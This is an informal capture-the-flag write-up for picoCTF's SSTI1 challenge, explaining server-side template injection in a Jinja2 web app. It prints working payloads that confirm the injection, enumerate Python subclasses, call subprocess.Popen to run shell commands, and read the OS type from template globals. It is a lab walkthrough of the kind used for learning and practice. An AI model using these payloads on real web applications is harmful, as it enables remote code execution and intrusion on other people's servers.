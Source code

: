 
# PicoCTF :: SSTI1 

## Step 1
So I tossed this cheeky little payload at the app:

```html
<img src=x>'"${{7*7}}
```

And It gave me `49`. 
That's the signature move of a backend running **Jinja2** or some other Python template engine. 

---

## Step 2
Now that we know it's Jinja2, time to enumerate classes.

I used:
```jinja2
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

And it dropped a big list longer:
```
<class 'mappingproxy'>, <class 'generator'>, ...
```

But I was on the lookout for:  
**`subprocess.Popen`**  
Why? Because it lets you run **actual system commands**. Yeah. From *inside the template*. This ain’t no static rendering — this is full-blown remote code execution.

After scrolling through like a lost intern reading docs, I found its index — `356`. JK
i copied all the content of the page and left that class as the last one, execute a python script to convert the `.txt` file into csv to find the index quickly

---

## Step 3: Code Execution 
almost there

```jinja2
{{ ''.__class__.__mro__[1].__subclasses__()[356]('id', shell=True, stdout=-1).communicate()[0].strip() }}
```

What this does:
- Digs deep into Python's object hierarchy to pull out `subprocess.Popen`
- Runs the command `id`
- Captures the output
- Strips off the extra fluff

If it works, it’ll tell you who you are. Spoiler: you're **root**.

---

## Step 4: Windows or Linux? (Optional)
Before going all in, you wanna know what kind of server you’re poking.

### Plan A – Use `os.name`:
```jinja2
{{''.__class__.__mro__[2].__subclasses__()[X].__init__.__globals__['os'].name}}
```
- `nt` = Windows  
- `posix` = Linux

### Plan B – Ask `platform`:
```jinja2
{{''.__class__.__mro__[2].__subclasses__()[X].__init__.__globals__['platform'].system()}}
```
- `Windows`, `Linux`, or `Darwin` (if you're hacking a MacBook)

Just plug in the right index for a subclass that’s got `os` or `platform` in its globals.

---

## Step 5: 
Now you’ve got code execution, you’ve ID’d the OS, and the server’s all yours.  
Start running commands:
```bash
ls
cat flag.txt
```

Find that flag.

---

# Summary:
- `{{7*7}}` gives `49` → SSTI confirmed   
- Enumerate subclasses → find `subprocess.Popen` 
- Run commands with it like a shell inside the web app   
- Find the flag 
